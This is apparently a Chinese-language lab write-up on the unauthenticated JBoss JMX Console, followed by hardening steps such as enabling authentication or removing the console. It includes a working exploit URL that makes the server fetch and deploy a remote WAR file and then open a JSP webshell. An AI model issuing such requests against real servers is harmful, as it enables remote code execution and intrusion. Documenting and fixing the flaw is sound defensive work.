






## JMX Console未授权访问

JMX Console默认存在未授权访问，直接点击JBoss主页中的JMX Console链接进入JMX Console页面。

1. 在JMX Console页面点击jboss.system链接，在Jboss.system页面中点击service=MainDeployer，如下


2. 进入service=MainDeployer页面之后，找到methodIndex为17 or 19的deploy 填写远程war包地址进行远程部署。


3. 这里我部署的war包为lxh.war，链接如下：
`http://192.168.31.205:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://192.168.31.205/lxh.war`

4. 访问
http://xx.xx.xx.xx/[warname]/shellname.jsp


### 修复建议
1. 增加密码措施，防止未授权访问。
1）在`C:\jboss-6.1.0.Final\common\deploy\jmx-console.war\WEB-INF\jboss-web.xml`开启安全配置。

2）在`C:\jboss-6.1.0.Final\common\deploy\jmx-console.war\WEB-INF\web.xml`开启安全认证。

3）在`C:\jboss-6.1.0.Final\server\default\conf\login-config.xml`中可以看到JMX Console的用户密码配置位置。
```
  <application-policy name="jmx-console">
    <authentication>
      <login-module code="org.jboss.security.auth.spi.UsersRolesLoginModule"
        flag="required">
        <module-option name="usersProperties">props/jmx-console-users.properties</module-option>
        <module-option name="rolesProperties">props/jmx-console-roles.properties</module-option>
      </login-module>
    </authentication>
```
4）配置用户密码以及用户权限，这里新增lxhsec用户。

5）重启JBoss，效果如下：


2.或删除JMX Console,后重启JBoss
`C:\jboss-6.1.0.Final\common\deploy\jmx-console.war`
